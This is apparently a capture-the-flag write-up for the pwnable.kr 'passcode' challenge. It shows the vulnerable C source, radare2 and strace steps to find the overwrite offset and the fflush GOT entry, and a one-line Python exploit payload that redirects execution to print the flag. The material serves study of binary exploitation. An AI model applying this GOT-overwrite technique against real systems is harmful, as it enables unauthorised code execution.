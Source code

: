 ## Pwnable.kr level1: passcode ##

### Prior knowledge ###
The task for this challenge was overwriting an entry in the GOT.
The link https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html gives a nice introduction into the topic of GOT and PLT.
The binary and code was given.

```
% cat passcode.c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");

	printf("pw1: %x, pw2: %x\n", passcode1, passcode2);
	printf("should be: pw1: %x, pw2: %x\n", 338150, 13371337);

	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

I won't go into the details of the bug.
The details of the challenge are described in http://xhyumiracle.com/pwnable-kr-passcode/.
My aim is to describe how to solve the challenge using `radare2` tools, python and strace.

### Generating patterns with radare2 ###

First, we generate a pattern using the `radare2` tools to find out at which offset of our input data the instruction pointer gets overwritten, which usually results in a seg fault if it's random data.

```
% ragg2 -P 100 -r ; echo
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
hacker@ctf:~/ctf/pwnable.kr/level1/passcode$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
Welcome AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh!
enter passcode1 : 9
Segmentation fault
```

The generated input must be 100 chars, because that's the size which is read into the variable `name`.
Every char entered above this limit will be buffered until the next call of scanf.
Since the next call will expect a decimal number, we can either directly put the decimal number behind it, or enter it on the next scanf call (shown as a read `strace`).

To figure out the part of the pattern which generated the fault, we use strace, which will show the address in `$eip` which caused the segmentation fault.

```
% strace -f ./passcode
execve("./passcode", ["./passcode"], [/* 21 vars */]) = 0
[ Process PID=32335 runs in 32 bit mode. ]
...
write(1, "enter you name : ", 17enter you name : )       = 17
read(0, AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
"AAABAACAADAAEAAFAAGAAHAAIAAJAAKA"..., 1024) = 101
write(1, "Welcome AAABAACAADAAEAAFAAGAAHAA"..., 110Welcome AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh!
) = 110
write(1, "enter passcode1 : ", 18enter passcode1 : )      = 18
read(0, 9
"9\n", 1024)                    = 2
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x68414167} ---
+++ killed by SIGSEGV +++
Segmentation fault
```

The pattern `0x68414167` ('hAAg') generated the segfault.
Since the generated pattern is a reproducible De Bruijn Pattern, we search for the offset in the generated pattern using the `wopO` command of `radare2`. I did not find a way to use commandline tools only to find the offset out, without starting `radare2`.

```
% r2 ./passcode
[0x080484b0]> wop?
|Usage: wop[DO] len @ addr | value
| wopD len [@ addr]   Write a De Bruijn Pattern of length 'len' at address 'addr'
| wopD* len [@ addr]  Show wx command that creates a debruijn pattern of a specific length
| wopO value          Finds the given value into a De Bruijn Pattern at current offset
[0x080484b0]> wopO 0x68414167
96
```

The data which overwrites the eip is therefore located at offset 96 of the input data.

### Overwriting the GOT entry ###

We find first where the function fflush is located in the PLT with the `r2` function `ii`, which lists all the imports, and filter for the function `fflush` using `~`.
The command `pd @addr` disassmbles the instructions at `addr`.
```
[0x080484b0]> ii~fflush
ordinal=002 plt=0x08048430 bind=GLOBAL type=FUNC name=fflush
[0x080484b0]> pd@0x08048430
/ (fcn) sym.imp.fflush 6
|   sym.imp.fflush ();
|     !!!      ; CALL XREF from 0x08048593 (sym.login)
\     |||   0x08048430      ff2504a00408   jmp dword [reloc.fflush_4]  ; 0x804a004 ; "6\x84\x04\bF\x84\x04\bV\x84\x04\bf\x84\x04\bv\x84\x04\b\x86\x84\x04\b\x96\x84\x04\b\xa6\x84\x04\b"
      !!!      ; DATA XREF from 0x08048430 (sym.imp.fflush)
```

Looking at the code at that address, we find the entry for fflush in the GOT to be located at 0x804a004.
This is where we have to overwrite the address of the real fflush function with an address which will print the flag, e.g. the address `0x080485d7` in `login()`.
The `radare2` command `pd 5 @addr` disassembles 5 instruction starting at position `addr`.

```
[0x08048410]> pd 5 @0x080485d7
|           0x080485d7      c70424a58704.  mov dword [esp], str.Login_OK_ ; [0x80487a5:4]=0x69676f4c ; "Login OK!" ; const char * s
|           0x080485de      e86dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080485e3      c70424af8704.  mov dword [esp], str._bin_cat_flag ; [0x80487af:4]=0x6e69622f ; "/bin/cat flag" ; const char * string
|           0x080485ea      e871feffff     call sym.imp.system         ; int system(const char *string)
|           0x080485ef      c9             leave

```

Here is a python snippet for writing address in little endian order, e.g. using ipython:
```
In [1]: import struct; struct.pack("<I", 0x804a004)
Out[1]: '\x04\xa0\x04\x08'
```


For our attack, we have to fill the variable `name` with 96 random chars, the GOT address which contains the address of `fflush` `0x804a004`, and write our chosen address `0x080485d7` into `passcode1`.
This can be expressed in one line:
```
% python -c "print 'A'*96+'\x04\xa0\x04\x08'+str(0x080485d7)" | ./passcode
```
